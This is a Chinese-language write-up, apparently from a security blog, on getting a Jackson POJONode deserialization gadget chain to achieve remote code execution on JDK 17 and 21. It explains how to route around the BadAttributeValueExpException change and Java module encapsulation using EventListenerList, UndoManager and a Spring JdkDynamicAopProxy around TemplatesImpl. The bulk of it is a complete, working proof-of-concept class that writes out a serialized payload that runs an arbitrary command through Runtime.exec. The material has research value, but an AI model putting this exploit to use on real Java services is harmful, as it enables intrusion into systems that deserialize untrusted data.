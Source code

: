 #### 高版本jdk下的突破（jdk17、21复现）

原版的打法是反序列化`BadAttributeValueExpException`时触发`val`属性的`toString`，来触发`POJONode.toString`，使得其调用`TemplatesImpl`的`getOutputProperties`从而动态加载字节码

而在高版本jdk中，`BadAttributeValueExpException`的val属性变成`String`了，无法在反序列化时触发`toString`；`TemplatesImpl`因为模块化的强封装而完全不能使用

##### BadAttributeValueExpException绕过

这个比较简单，触发toString的链的有很多，这里采用`EventListenerList`链来触发`toString`，

链条是`EventListenerList.readObject -> POJONode.toString`，主要是利用字符串与对象的拼接触发

poc如下

```java
javax.swing.event.EventListenerList list = new javax.swing.event.EventListenerList();
UndoManager manager = new UndoManager();
Vector vector = (Vector) getFieldValue(manager.getClass(),manager, "edits");
vector.add(pojoNode);
setValue(list, "listenerList", new Object[]{InternalError.class, manager});
```

##### TemplatesImpl模块化的强封装的绕过

**模块化封装：**

从 JDK 9 开始，Java 引入了 JPMS（Java Platform Module System，模块系统），也就是著名的 Project Jigsaw 。在 JDK 17及以上中，这一机制已经被完全强化，具体体现为：

- 内部 API 封装：以前我们可以随意`import com.sun.*`或者 `sun.*` 的内部类，但在 JDK 17及以上， 这些类已经被模块系统强封装，默认不可访问。
- 强封装机制：模块之间的可见性由 `module-info.java` 描述，如果某个包没有被 `exports` ，外部模块就无法直接访问。
- 反射限制：在 JDK 8 及之前，我们常常通过 `setAccessible(true)` 绕过 `private` 限制，反射 访问类的私有字段或构造函数。但在 JDK 17及以上里，即使你用 `setAccessible(true)` ，也会被 `InaccessibleObjectException` 拦住，除非你在 `JVM` 启动时手动加 `-add-opens` 参数开放 模块或者使用` Java Agent/Instrumentation` 来打破封装。

 

因此，jdk17及以上会进行模块检测导致我们无法直接利用 `getOutputProperties` 。 那么现在最关键的问题，就是如何在jdk高版本之中利用 `getOutputProperties` 

 

###### JdkDynamicAopProxy动态代理TemplatesImpl

在前面的《随机性导致利用失败》中用到一个trick：借助动态代理使用`InvocationHandler`创建`javax.xml.transform.Templates`代理对象，并在`InvocationHandler#invoke`中调用的`TemplatesImpl.getOutputProperties`方法，其中用到的`InvocationHandler`为`org.springframework.aop.framework.JdkDynamicAopProxy`

**查看高版本jdk的 `module-info.java` 描述，可以发现`javax.xml.transform`是`exports`的，因此。直接传入 `TemplatesImpl` 对象的话，`com.sun.org.apache.xalan.internal.xsltc.trax` 没有 export 给外部，所以会出现报错。但是经过`JdkDynamicAopProxy` 代理之后，对外暴露的接口是 `javax.xml.transform.Templates`可以绕过模块化强封装**



在这里需要注意一个很重要的点，在以往我们利用`TemplatesImpl` 的时候，被利用的目标都需要继承 `AbstractTranslet` ，但在高版本下肯定是不行的，因为其在别的包中默认不可访问，必然涉及到模块化的检测导致报错

###### TemplatesImpl恶意类真的必须继承AbstractTranslet？

> - `_transletIndex`：表示哪个 `_bytecodes` 的索引对应“主 translet”类（即执行转换逻辑的那个类）；当 `_transletIndex < 0` 时通常表示没有可执行的 translet。
> - `_auxClasses`：一个容器（`HashMap` / `Hashtable` 等，根据 JDK 与实现不同），用于存放“辅助类”字节码或已经被定义的辅助类引用。

其实不然，`AbstractTranslet`类通过`_transletIndex`来限制执⾏，但 `_transletIndex` 没有被标记为 `transient` 是能参与序列化过程的，可以直接通过反射来绕过这个限制。


当类不继承 `AbstractTranslet` 时，会向 `_auxClasses` 中 `put` 数据，所以需要保证`_auxClasses` 不为空。


寻找实例化 `_auxClasses` 的地方，发现在前⾯有⼀个判断，当 `classCount` ⼤于 1 时，即 `_bytecodes` 传⼊多个类时会将 `_auxClasses` 赋值为 `HashMap`。

最终构造的`TemplatesImpl`恶意类如下:

```java
ClassPool pool = ClassPool.getDefault();
CtClass clazzFoo = pool.makeClass("abu");
byte[] abu = clazzFoo.toBytecode();
// 满⾜条件 1. classCount也就是_bytecodes的数量⼤于1 2. _transletIndex >= 0可去掉 AbstractTranslet
Templates templates = TemplatesImpl.class.newInstance();
setValue(templates, "_bytecodes", new byte[][]{genPayload(cmd),abu});
setValue(templates, "_name", "1");
setValue(templates,"_transletIndex",0);
return templates;
```

最终可在高版本jdk中直接rce的poc如下，下面是jdk17中的测试:

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Vector;

//java9以上 有module限制 生成序列化时需加上--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens=java.desktop/javax.swing.event=ALL-UNNAMED
//链子入口EventListenerList -> UndoManager -> POJONode  ->
public class jackson_rce {
    public static void main(String[] args) throws Exception{

        POJONode pojoNode = new POJONode(makeTemplatesImplAopProxy());
        javax.swing.event.EventListenerList list = new javax.swing.event.EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager.getClass(),manager, "edits");
        vector.add(pojoNode);
        setValue(list, "listenerList", new Object[]{InternalError.class, manager});
        System.out.println(serialize(list));
        unserialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }


    public static String serialize(Object o) throws IOException {
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(o);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64String.length());
        return base64String;
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(52);
        return clazz.toBytecode();
    }
    public static Templates makeTemplatesImpl(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzFoo = pool.makeClass("abu");
        byte[] abu = clazzFoo.toBytecode();
        // 满⾜条件 1. classCount也就是_bytecodes的数量⼤于1 2. _transletIndex >= 0可去掉 AbstractTranslet
        Templates templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload(cmd),abu});
        setValue(templates, "_name", "1");
        setValue(templates,"_transletIndex",0);
        return templates;
    }
    public static Object makeTemplatesImplAopProxy() throws Exception {
        Templates templates = makeTemplatesImpl("calc");
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    public static Object getFieldValue(Class<?> clazz, Object obj, String fieldName) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = (Field) getFieldValue(clazz.getSuperclass(), obj, fieldName);

            return field.get(obj);
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getFieldValue(clazz.getSuperclass(),obj, fieldName);
            }
            throw e;
        }
    }
}
```

生成序列化时候需要开启

```
--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens=java.desktop/javax.swing.event=ALL-UNNAMED
```

